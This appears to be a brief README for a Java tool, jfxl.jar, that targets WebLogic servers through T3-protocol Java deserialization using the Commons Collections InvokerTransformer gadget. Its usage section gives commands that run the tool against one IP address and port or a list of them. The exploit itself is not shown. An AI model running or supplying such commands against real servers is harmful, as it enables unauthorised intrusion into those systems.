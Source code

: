 # weblogic_java_des
weblogic T3 collections java InvokerTransformer Transformer  InvokerTransformer weblogic.jndi.WLInitialContextFactory

# how use?
<code>
java  -jar ./bin/jfxl.jar 192.168.10.90:80

java  -jar ./bin/jfxl.jar 192.168.10.90:80;192.168.10.190:7001;192.168.10.33:7001
</code>
